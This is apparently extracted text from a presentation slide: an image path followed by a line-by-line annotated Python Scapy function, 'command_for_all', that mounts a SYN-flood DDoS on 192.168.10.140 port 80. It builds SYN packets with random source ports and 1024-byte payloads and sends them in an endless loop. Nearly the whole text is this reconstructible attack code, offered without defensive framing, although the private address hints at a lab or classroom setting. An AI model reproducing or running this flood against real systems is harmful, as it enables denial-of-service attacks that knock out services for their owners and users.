

def command_for_all():: Defines the command_for_all function to perform a DDOS attack.
target_IP = "192.168.10.140": Sets the target IP address.
target_port = 80: Sets the target port.
ip = IP(dst=target_IP): Creates an IP packet.
tcp = TCP(sport=RandShort(), dport=target_port, flags="S"): Creates a TCP packet with a random source port and SYN flag.
raw = Raw(b"X" * 1024): Creates a raw payload of 1024 bytes.
p = ip / tcp / raw: Combines the IP, TCP, and raw payload into one packet.
send(p, loop=1, verbose=1): Sends the packet in a loop, with verbose output.